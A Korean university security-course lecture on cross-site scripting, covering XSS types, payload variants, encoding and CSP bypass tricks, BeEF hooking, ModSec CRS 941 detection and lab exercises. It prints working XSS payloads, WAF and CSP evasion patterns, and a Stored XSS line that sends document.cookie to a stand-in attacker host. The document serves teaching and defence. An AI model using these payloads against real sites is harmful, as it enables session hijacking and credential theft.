

# Week 05 — OWASP A03 — XSS (Cross-Site Scripting)

> **XSS (Cross-Site Scripting)** = 공격자가 다른 사용자의 브라우저에서 임의의
> JavaScript 를 실행하게 만드는 취약점. OWASP Top 10 의 A03 Injection 의 두 번째
> 대표. CWE-79. 1995 NCSA Mosaic 이후 30 년 빈번. 모던 환경에서도 매년 1000+ XSS
> CVE 보고. 본 주차는 3 XSS 타입 + 페이로드 변형 12+ + CSP 우회 + 방어 표준 모두
> 다룬다.

## 학습 목표

학생은 본 주차 종료 시 다음을 수행할 수 있어야 한다.

1. **XSS 3 타입** (Reflected / Stored / DOM-based) 의 동작·차이·영향
2. **payload 12+ 변형** + 각 변형의 회피 패턴
3. **CSP 우회 패턴 5+** (unsafe-inline / JSONP / open redirect 등)
4. **BeEF (Browser Exploitation Framework)** 의 동작 + cookie hijacking
5. **HTML entity / URL / Unicode encoding** 변환의 보안 영향
6. **ModSec CRS 941** + **libinjection-XSS** 의 방어 + 우회
7. **방어 표준** (HTML escape / CSP / SameSite / HttpOnly / X-XSS-Protection)
8. W05 R/B/P 1 사이클 (Red XSS → Blue 3 도구 detect → Purple 룰 강화)

## 강의 시간 배분 (3시간 40분)

| 시간      | 내용                                                                | 유형 |
|-----------|---------------------------------------------------------------------|------|
| 0:00–0:30 | 이론 — XSS 정의 + 역사 + 유명 사고 (MySpace Samy / 페이스북)        | 강의 |
| 0:30–1:00 | 이론 — 3 XSS 타입 (Reflected / Stored / DOM)                        | 강의 |
| 1:00–1:10 | 휴식                                                                 | —    |
| 1:10–1:40 | 이론 — payload 12 변형 + encoding 우회                              | 강의 |
| 1:40–2:00 | 이론 — CSP / SameSite / HttpOnly / 방어 5 표준                      | 강의 |
| 2:00–2:30 | 실습 1, 2 — Reflected + Stored XSS                                 | 실습 |
| 2:30–2:40 | 휴식                                                                 | —    |
| 2:40–3:10 | 실습 3, 4 — payload 변형 + CSP 검토                                 | 실습 |
| 3:10–3:30 | 실습 5 — R/B/P 보고서                                              | 실습 |
| 3:30–3:40 | 정리 + W06 (인증·접근제어) 예고                                     | 정리 |

---

## 1. XSS 란?

### 1.1 정의

```
XSS (Cross-Site Scripting) = 신뢰된 web application 의 응답에 attacker 의 JS 가
                              포함되어 다른 사용자의 브라우저에서 실행되는 취약점
CWE-79: Improper Neutralization of Input During Web Page Generation
```

**왜 "Cross-Site" 인가?**: 1996 Netscape 에서 처음 명명. 한 사이트 (예: attacker.com)
의 script 가 다른 사이트 (예: victim.com) 의 보안 context 에서 실행됨 → "cross site".

**SQLi 와의 차이**:
| 항목 | SQLi | XSS |
|------|------|-----|
| 대상 | server DB | victim 브라우저 |
| 피해자 | 시스템 소유자 | 사용자 |
| 영향 | 데이터 유출 / 변조 | session hijack / phishing / drive-by |
| 즉시성 | 즉시 | 사용자 방문 시 |
| 차단 도구 | WAF (ModSec) + parameterized query | CSP + HTML escape |

### 1.2 역사

- **1995** : Netscape Navigator 의 첫 JS — XSS 의 시작
- **1996** : Cross-Site Scripting 명명 (Microsoft)
- **2000s** : MySpace 의 Samy worm (2005), Twitter onmouseover (2010)
- **2010s** : DOM-based XSS 증가 (SPA 의 client-side rendering)
- **2014** : CSP 1.0 W3C 표준
- **2018+** : Trusted Types (Chrome) — DOM XSS 의 정밀 방어
- **2024** : XSS 가 OWASP Top 10 A03 의 일부 (2017 까지 A7 별 항목)

### 1.3 5 유명 사고

| 연도 | 사고 | 영향 |
|------|------|------|
| 2005 | MySpace Samy worm | 100만 사용자 친구 추가 (자가 복제 XSS) |
| 2010 | Twitter onmouseover | 트윗 마우스 hover 시 자동 retweet |
| 2011 | Facebook OBB XSS | $5000 bug bounty |
| 2014 | eBay listing XSS | 사용자 자격증명 도용 |
| 2018 | British Airways Magecart | 38만 카드 정보 (skimmer XSS) |
| 2021 | Twitter spaces XSS | Cloudflare bug bounty |

### 1.4 한국 사례

- 2020-2024 KISA 의 다수 사고 보고서에 XSS 언급 (특히 Stored XSS)
- 학교·공공기관의 게시판 / 댓글 시스템 의 Stored XSS 빈번
- 본 과목 매핑: W05 + W14 Purple Team

### 1.5 XSS 의 영향

```
1. Session hijacking — cookie 도용 → 사용자 위장
2. Credential phishing — 가짜 login form 삽입
3. Drive-by download — 사용자 클릭 없이 malware 다운로드
4. Keylogger — 사용자 입력 도용
5. Crypto miner — 사용자 CPU 마이닝
6. Defacement — 페이지 외관 변조
7. Worm propagation — 자가 복제 (Samy worm)
```

---

## 2. XSS 3 타입

### 2.1 Reflected XSS (Non-persistent)

**원리**: URL 파라미터 (query string / form data) 의 값이 응답 HTML 에 그대로 반사.

```
공격자가 victim 에게 link 전송:
  http://target.com/search?q=<script>alert(1)</script>

victim 이 클릭 → server 가 응답:
  <html>... You searched for: <script>alert(1)</script> ...</html>
  → 브라우저가 <script> 실행
```

**특징**:
- 1회성 (URL 별)
- 사용자 클릭 필요 (사회공학)
- 가장 빈번한 XSS

**방어**: 응답 시 HTML escape.

### 2.2 Stored (Persistent) XSS

**원리**: 공격자가 서버 DB 에 페이로드 저장 → 모든 방문자에 영향.

```
공격자가 form 에 payload 입력:
  댓글: <script>alert(document.cookie)</script>

서버가 DB 저장 → 다른 사용자 페이지 방문 시 응답에 포함:
  <p>댓글: <script>alert(document.cookie)</script></p>
  → 모든 방문자 브라우저에서 실행
```

**특징**:
- 영구적 (DB 저장)
- 모든 방문자 자동 노출
- 가장 위험 (MySpace Samy 등)

**대상**: 댓글 / 게시판 / 프로필 / 메시지 / 검색어 history

### 2.3 DOM-based XSS

**원리**: JavaScript 가 URL fragment (`#...`) 또는 `document.location` 을 DOM 에 삽입.

```html
<!-- target.com/page.html 의 JS -->
<script>
  document.write("Hello, " + document.location.hash.slice(1));
</script>

<!-- victim 이 link 클릭 -->
http://target.com/page.html#

<!-- 브라우저:
     document.location.hash = "#"
     → document.write("Hello, ")
     → DOM 에 추가 → onerror 실행
-->
```

**특징**:
- 서버 측 흔적 없음 (fragment 는 server 미전송)
- 서버 측 WAF 가 못 잡음 (응답에 페이로드 없음)
- SPA (Angular / React / Vue) 의 대부분 XSS

**방어**: client-side escape + Trusted Types.

### 2.4 비교 매트릭스

| 항목 | Reflected | Stored | DOM-based |
|------|-----------|--------|-----------|
| 저장 위치 | URL | server DB | URL fragment / window |
| 영향 범위 | 클릭 사용자 | 모든 방문자 | 클릭 사용자 |
| 서버 흔적 | 있음 (request log) | 있음 (DB) | **없음** |
| WAF 차단 | ✓ | ✓ | ✗ (server 미전송) |
| 빈도 | 가장 빈번 | 가장 위험 | 모던 SPA 다수 |

---

## 3. Payload 12+ 변형

### 3.1 기본 페이로드

```html
1. <script>alert(1)</script>           <!-- 기본 -->
2. <script src="//attacker.com/x.js"></script>  <!-- 외부 -->
3.         <!-- 이미지 onerror -->
4.     <!-- quote 변형 -->
5. <svg onload=alert(1)>               <!-- SVG -->
6. <svg/onload=alert(1)>               <!-- 공백 변형 -->
7. <iframe src=javascript:alert(1)>    <!-- iframe + js scheme -->
8. <body onload=alert(1)>              <!-- body onload -->
9. <input onfocus=alert(1) autofocus>  <!-- autofocus -->
10. <select onchange=alert(1)><option></option><option></option></select>
11. <details ontoggle=alert(1) open>   <!-- ontoggle -->
12. <video><source onerror=alert(1)>   <!-- video source -->
```

### 3.2 Case mixing

```html
<ScRiPt>alert(1)</ScRiPt>
<SCRIPT>alert(1)</SCRIPT>
```

**우회 가능성**: nocase 미적용 룰만. ModSec CRS 의 941 은 nocase 적용 → 차단.

### 3.3 Nested tag

```html
<sc<script>ript>alert(1)</script>
<scr<script>ipt>alert(1)</script>
```

**원리**: 브라우저가 처음 `<script>` 만 매치 → `<sc...ript>alert(1)` 가 DOM 에 추가 →
실행. WAF 의 단순 string match 우회 가능.

### 3.4 Encoding 변형

#### URL encoding

```
<script>     → %3Cscript%3E
alert(1)     → %61%6C%65%72%74%28%31%29
```

**우회 가능성**: 서버가 URL decode 후 검사 → 정상 차단. WAF 의 decode 단계 미적용 시
우회.

#### HTML entity

```
<script>     → &lt;script&gt;
             → &#60;script&#62;
             → &#x3C;script&#x3E;
alert        → &#97;&#108;&#101;&#114;&#116;
```

**우회 가능성**: HTML parser 가 entity decode 후 DOM 추가 → script 실행. WAF 가 entity
decode 안 함 시 우회.

#### Unicode escape (JS)

```javascript
<script>alert(1)</script>      // a = a
```

**우회 가능성**: JS engine 이 unicode escape decode → 실행.

### 3.5 javascript: scheme

```html
<a href=javascript:alert(1)>click</a>
<iframe src=javascript:alert(1)>
```

**우회 가능성**: href 또는 src 속성 검사 미적용 시.

### 3.6 Event handler 변형 (50+)

```
onclick, ondblclick, onmousedown, onmouseup, onmouseover, onmouseout,
onmousemove, onkeydown, onkeyup, onkeypress, onfocus, onblur, onchange,
onsubmit, onreset, onload, onunload, onerror, onresize, onscroll, ...
```

각 event 가 다른 trigger → 다양한 페이로드 가능.

### 3.7 모던 변형 (2023+)

```html
<svg><animatetransform onbegin=alert(1)>
<math><mtext><option><FAKEFAKE><option></option><mglyph><svg><mtext><textarea><a title="</textarea>">
<style>@import "data:,*{x:expression(alert(1))}";</style>
```

XSS Cheat Sheet (https://cheatsheetseries.owasp.org/cheatsheets/XSS_Filter_Evasion_Cheat_Sheet.html)
참고.

---

## 4. CSP (Content Security Policy) 우회 5 패턴

### 4.1 CSP 의 동작

```
Content-Security-Policy: default-src 'self'; script-src 'self' 'nonce-abc123'
```

브라우저가 CSP 헤더 받으면:
- `default-src 'self'` : 모든 자원 같은 origin 만
- `script-src 'self' 'nonce-abc123'` : JS 는 같은 origin + 특정 nonce 만
- 인라인 `<script>alert(1)</script>` → **차단** (nonce 없음)

### 4.2 우회 패턴 5

#### 4.2.1 `'unsafe-inline'` 허용 시

```
CSP: script-src 'self' 'unsafe-inline'
```

inline script 모두 허용 → 모든 XSS 가능. **anti-pattern**.

#### 4.2.2 `'unsafe-eval'` 허용 시

```
CSP: script-src 'self' 'unsafe-eval'
```

eval() / Function() 허용 → 우회:

```html
<script src="/static/jquery.js"></script>  <!-- 같은 origin OK -->
<script>$.getScript('//attacker.com/x.js')</script>  <!-- jQuery 가 eval -->
```

#### 4.2.3 JSONP endpoint 의 callback

```
CSP: script-src 'self' https://accounts.google.com
```

google 의 JSONP endpoint 가 callback parameter 받음:

```html
<script src="https://accounts.google.com/o/oauth2/revoke?callback=alert(1)//"></script>
<!-- 응답: alert(1)//... -->
<!-- 같은 origin (google.com) 이지만 alert 실행 -->
```

#### 4.2.4 Open redirect 우회

```
CSP: script-src 'self'

target.com/redirect?url=...   ← open redirect 있음
```

```html
<script src="/redirect?url=//attacker.com/x.js"></script>
<!-- 같은 origin 으로 시작 → CSP 통과 → redirect 후 attacker JS 로드 -->
```

#### 4.2.5 Nonce 유출

```html
<!-- 정상 페이지의 HTML -->
<script nonce="abc123">/* legit code */</script>

<!-- XSS injection point -->
<script nonce="abc123">alert(1)</script>  <!-- nonce 추출 → 우회 -->
```

nonce 가 HTML 안에 보이면 도용 가능 → 매 응답 random nonce 권장.

### 4.3 CSP report-uri

```
Content-Security-Policy-Report-Only: ...; report-uri /csp-violation
```

위반 시 서버에 보고 → 운영 측 모니터링. 본 lab 에서는 미설정 (의도된 학습용).

---

## 5. BeEF (Browser Exploitation Framework)

### 5.1 개요

```
역사: 2006 Wade Alcorn + others. 모던 XSS hooking 표준.
라이선스: GPLv3
용도: XSS 후 사용자 브라우저 제어 (zombie 화)
```

### 5.2 동작 원리

```
1. Attacker 가 hook.js 를 host (BeEF 서버, 보통 port 3000)
2. XSS 페이로드로 <script src="//attacker/hook.js"> 삽입
3. Victim 의 브라우저가 hook.js 로드 → BeEF 와 통신 시작 (WebSocket)
4. Attacker 의 BeEF panel 에서 victim 의 브라우저 명령 실행
```

### 5.3 BeEF 명령 모듈 (200+)

- Network: ping sweep / port scan (victim 의 internal IP 에서)
- Social Engineering: 가짜 prompt / phishing page
- Browser exploits: 알려진 CVE
- Webcam / Mic access (사용자 동의 필요)
- Keylogger
- Persistence (다른 tab 으로 hook 이동)

### 5.4 본 과목 사용

BeEF 자체는 별 컨테이너 필요. 본 lab 에서는 패턴 학습만 + cookie hijacking 시뮬.

---

## 6. ModSec CRS 941 + libinjection-XSS

### 6.1 941 룰셋

```
/usr/share/modsecurity-crs/rules/REQUEST-941-APPLICATION-ATTACK-XSS.conf
```

내부 룰 60+:

| 룰 ID | 의미 |
|-------|------|
| 941100 | libinjection 기반 XSS (가장 정확) |
| 941110 | Basic XSS — `<script>` 패턴 |
| 941120 | Basic XSS — event handler (`onclick=` 등) |
| 941130 | Basic XSS — CSS expression |
| 941140 | XSS using `javascript:` scheme |
| 941160 | XSS with NoScript tag |
| 941170 | Node-based XSS — UTF-7 |
| 941180 | XSS — JS 의 unicode escape |
| 941190 | IE conditional comments XSS |
| 941200 | XSS — meta-character |
| 941210 | XSS — Obfuscated JS event handler |
| 941220 | XSS — Obfuscated JS escape sequence |

### 6.2 libinjection-XSS 의 원리

libinjection (Nick Galbreath) 의 XSS 매칭:

```
1. 입력을 HTML 의 토큰으로 parse
2. tag / attribute / event-handler 의 fingerprint
3. 알려진 XSS fingerprint DB 매칭
4. 점수 ≥ threshold 시 block
```

**예**:
```
입력: 
Token: TAG_OPEN(img) ATTR(src=x) ATTR_EVENT_HANDLER(onerror=alert(1)) TAG_CLOSE
Fingerprint: timg + event + js_call
→ libinjection 의 XSS fingerprint 매치 → block
```

### 6.3 anomaly scoring

```
941100 매치 → score 5 (critical)
941110-941220 매치 → score 4 (error)
inbound_anomaly_score_threshold = 5 → block
```

대부분 XSS 페이로드가 1 매치만으로 차단 (libinjection 매치).

---

## 7. 방어 표준 5

### 7.1 HTML Escape (output encoding)

**원리**: 응답 시 user 입력을 HTML 의 special character 로 escape.

```python
import html
output = html.escape(user_input)
# '<script>' → '&lt;script&gt;'
# '"' → '&quot;'
# "'" → '&#x27;'
# '&' → '&amp;'
```

**context-aware** escape:
- HTML body: `<`, `>`, `&`, `"` escape
- HTML attribute: 추가 quote escape
- JS string: backslash + quote
- URL: %encoding
- CSS: \HH encoding

**프레임워크 자동 escape**:
- Django: `{{ var }}` 자동 escape
- React: JSX 자동 escape (단 `dangerouslySetInnerHTML` 주의)
- Vue: `{{ var }}` 자동 escape
- Angular: template binding 자동 escape

### 7.2 CSP (이미 §4)

### 7.3 SameSite Cookie

```
Set-Cookie: id=...; SameSite=Strict; HttpOnly; Secure
```

XSS 가 발생해도 cookie 자체는 도용 어려움 (HttpOnly + Secure).

### 7.4 X-XSS-Protection (deprecated)

```
X-XSS-Protection: 1; mode=block
```

이전 IE / Chrome 의 XSS auditor 활성. **2020+ 모든 모던 브라우저에서 deprecated**.
CSP 가 표준 권장.

### 7.5 Trusted Types (Chrome 2020+)

```
Content-Security-Policy: require-trusted-types-for 'script'
```

innerHTML / document.write 등 위험 sink 에 trusted type 필수. DOM XSS 의 정밀 방어.

```javascript
// 정상
element.innerHTML = trustedTypes.createPolicy('default', {
  createHTML: (s) => DOMPurify.sanitize(s)
}).createHTML(userInput);

// 위반 (browser 가 차단)
element.innerHTML = userInput;
```

---

## 8. ATT&CK + OWASP 매핑

| Technique | 내용 |
|-----------|------|
| T1059.007 | Command and Scripting Interpreter - JavaScript |
| T1185 | Browser Session Hijacking (XSS → session) |
| T1539 | Steal Web Session Cookie |
| OWASP A03 | Injection (XSS 포함) |
| CWE-79 | Improper Neutralization (XSS 의 root cause) |

---

## 9. R/B/P 시나리오 — XSS 1 사이클



**핵심 인사이트**:
- W04 (SQLi) 와 유사 구조 — ModSec 941 가 1차 방어
- DOM-based XSS 는 server 미도달 → WAF 가 못 잡음
- Stored XSS 는 osquery FIM 으로 file change detect 가능 (간접 방어)

---

## 10. 실습 1~5

### 실습 1 — Reflected XSS 12 변형 매트릭스

```bash
ssh 6v6-attacker '
echo "=== XSS payload 12 변형 매트릭스 ==="
for p in \
    "<script>alert(1)</script>" \
    "<script src=//attacker/x.js></script>" \
    "" \
    "<svg onload=alert(1)>" \
    "<svg/onload=alert(1)>" \
    "<iframe src=javascript:alert(1)>" \
    "<body onload=alert(1)>" \
    "<input onfocus=alert(1) autofocus>" \
    "<details ontoggle=alert(1) open>" \
    "<ScRiPt>alert(1)</ScRiPt>" \
    "<sc<script>ript>alert(1)</script>" \
    "%3Cscript%3Ealert(1)%3C%2Fscript%3E"; do
    code=$(curl -s -o /dev/null -w "%{http_code}" \
        -H "Host: juice.6v6.lab" \
        "http://10.20.30.1/?q=$p")
    echo "$code | $p"
done
'
```

**예상 결과 분석**:

대부분 403 (ModSec 941100 매치). 일부 변형은 paranoia 1 우회 가능성.

### 실습 2 — Stored XSS 시뮬 (mediforum)

```bash
ssh 6v6-attacker '
echo "=== Stored XSS 시도 (mediforum 가상) ==="

# 댓글 form 에 XSS 페이로드 POST
curl -s -o /dev/null -w "POST: %{http_code}\n" \
    -X POST \
    -H "Host: mediforum.6v6.lab" \
    -d "comment=<script>document.location=\"//attacker/?c=\"+document.cookie</script>" \
    http://10.20.30.1/comments

# 또는 GET form (CSRF 가능 시)
curl -s -o /dev/null -w "GET: %{http_code}\n" \
    -H "Host: mediforum.6v6.lab" \
    "http://10.20.30.1/comments?text=<script>alert(1)</script>"
'
```

**Stored XSS 의 detection 패턴**:
- ModSec 가 POST body 검사 (`SecRequestBodyAccess On`)
- 차단 시 403
- 통과 시 (paranoia 우회) DB 저장 → 다른 사용자 영향

### 실습 3 — Encoding 우회 시도

```bash
ssh 6v6-attacker '
echo "=== encoding 변형 7 시도 ==="
# 원본: <script>alert(1)</script>

for p in \
    "<script>alert(1)</script>" \
    "%3Cscript%3Ealert(1)%3C%2Fscript%3E" \
    "%253Cscript%253Ealert(1)%253C%252Fscript%253E" \
    "&#60;script&#62;alert(1)&#60;/script&#62;" \
    "&#x3C;script&#x3E;alert(1)&#x3C;/script&#x3E;" \
    "<scr<script>ipt>alert(1)</script>" \
    "<svg/onload=alert%281%29>"; do
    code=$(curl -s -o /dev/null -w "%{http_code}" \
        -H "Host: juice.6v6.lab" \
        "http://10.20.30.1/?q=$p")
    echo "$code | $p"
done
'
```

**결과 분석**:
- URL double-encoded (`%25`) → 일부 우회 가능
- HTML entity → 응답 측에서 entity decode 되어 실행 → 우회 가능 (paranoia 1 일부)
- Nested → libinjection 정교 매치 → 차단

### 실습 4 — CSP 헤더 검토

```bash
ssh 6v6-attacker '
echo "=== JuiceShop 응답 헤더 분석 ==="
curl -sI -H "Host: juice.6v6.lab" http://10.20.30.1/ | head -30

echo ""
echo "=== CSP 분석 ==="
curl -sI -H "Host: juice.6v6.lab" http://10.20.30.1/ | grep -i "content-security-policy"

echo ""
echo "=== HSTS / X-Frame / SameSite ==="
curl -sI -H "Host: juice.6v6.lab" http://10.20.30.1/ | grep -iE "strict-transport|x-frame|set-cookie|samesite"
'
```

**분석 포인트**:
- CSP 없음 → XSS 가 성공 시 차단 메커니즘 부재
- CSP 있어도 `'unsafe-inline'` 포함 → 우회 가능
- X-Frame-Options 없음 → clickjacking 가능
- SameSite=None 또는 미설정 → CSRF 가능

### 실습 5 — ModSec audit log + R/B/P 보고서

```bash
# Red 측 — 본인 XSS payload history
echo "=== Red 측 history (최근 10) ==="
history | grep -E "curl.*<script|curl.*onerror|curl.*svg" | tail -10

# Blue 측 — ModSec 941 매치
ssh 6v6-web '
echo "=== ModSec 941 매치 (XSS detection) ==="
sudo tail -10 /var/log/apache2/modsec_audit.log | head -3 | \
    jq ".transaction.messages[] | select(.id | startswith(\"941\")) | {id, msg, data}" 2>/dev/null | head -20
'

# Blue 측 — Suricata XSS alert
ssh 6v6-ips '
echo "=== Suricata XSS alert ==="
sudo tail -200 /var/log/suricata/eve.json | \
    jq "select(.event_type==\"alert\" and (.alert.signature | tostring | test(\"XSS|script\")))" 2>/dev/null | head -5
'

# Blue 측 — Wazuh 통합
ssh 6v6-siem '
echo "=== Wazuh 통합 alert (level 7+) ==="
sudo tail -200 /var/ossec/logs/alerts/alerts.json | \
    jq "select(.rule.level >= 7) | {rule_id:.rule.id, desc:.rule.description, agent:.agent.name}" 2>/dev/null | head -10
'
```

**R/B/P 보고서 양식**:

```markdown
# W05 R/B/P 보고서 — XSS

## Red 측
- 페이로드 12 변형 시도
- 성공한 페이로드: 0 (ModSec 941100 차단)
- 우회 시도: encoding / nested / case mixing 7

## Blue 측 Coverage
| 페이로드 변형 | ModSec | Suricata | Wazuh |
| <script> | 941100 | ET WEB | rule 31115 |
|  | 941110 | ET WEB | rule 31115 |
| URL encoded | 941100 | (decode 후) | rule 31115 |
| nested | 941100 | (libinjection) | rule 31115 |

총 Coverage: 100% (12 변형 모두 차단)

## Purple 측 권장
1. paranoia 1 → 2 단계 상승 (some 우회 가능성 차단)
2. CSP 강화: nonce + strict-dynamic
3. SameSite=Strict + HttpOnly Cookie
4. response 측 HTML escape (django auto-escape 등)
5. Trusted Types 적용 (DOM XSS 차단)

## 학습 인사이트
- Reflected/Stored XSS 는 ModSec 941 + libinjection 으로 강력 차단
- DOM-based XSS 는 서버 미도달 → 별도 client-side 방어 필요
- 본 lab 의 JuiceShop 은 score-board 의 일부 XSS challenge 가 의도된 약점
```

---

## 11. 한국 사례 + 표준 매핑

### 11.1 KISA 보호나라 — XSS 사고

대학 / 공공기관 / 게시판 시스템의 Stored XSS 가 매년 보고. 본 과목 학습 후 보고서를
이해할 수 있어야 한다.

### 11.2 ISMS-P 2.10.7

XSS 차단 검증 = 본 통제의 입증.

### 11.3 OWASP XSS Prevention Cheat Sheet

5 핵심:
1. **항상 output encoding** (context-aware)
2. **CSP 적용** (nonce 권장)
3. **HttpOnly + Secure + SameSite Cookie**
4. **input validation** 보조 (whitelist)
5. **모던 framework 사용** (자동 escape)

---

## 12. 과제

### A. 페이로드 매트릭스 (필수, 40점)

12+ 변형 페이로드 × 응답 코드 표 + ModSec 룰 ID + 우회 가능성 평가.

### B. CSP 검토 (심화, 30점)

JuiceShop 의 응답 헤더 분석 + CSP 가 있다면 directive 분석 + 우회 가능 시나리오 5+.

### C. 방어 권장 (정성, 30점)

본 lab 의 XSS 모두 차단된 후, 운영자 시점의 방어 권장 5+ + 우선순위.

---

## 13. 평가 기준

| 항목 | 비중 |
|------|------|
| 페이로드 매트릭스 (A) | 40% |
| CSP 검토 (B) | 30% |
| 방어 권장 (C) | 30% |

---

## 14. 핵심 정리 (10 줄)

1. **XSS = OWASP A03 의 두 번째 대표**, 30 년 빈번, CWE-79
2. **3 타입** — Reflected / Stored / DOM (DOM 만 서버 흔적 없음)
3. **payload 12+ 변형** — script / event / nested / encoding
4. **CSP 우회 5** — unsafe-inline / unsafe-eval / JSONP / open redirect / nonce 유출
5. **BeEF** = XSS 후 browser 제어 (zombie)
6. **ModSec CRS 941** + **libinjection-XSS** = 모던 1차 방어
7. **방어 5 표준** — Escape / CSP / SameSite / HttpOnly / Trusted Types
8. **W05 R/B/P** — Red 12 변형 → ModSec 941 차단 → Purple 5 권장
9. **본 lab 의 XSS 모두 차단** = ModSec 941 의 강력함
10. **W06 (인증·접근제어)** 다음 주차
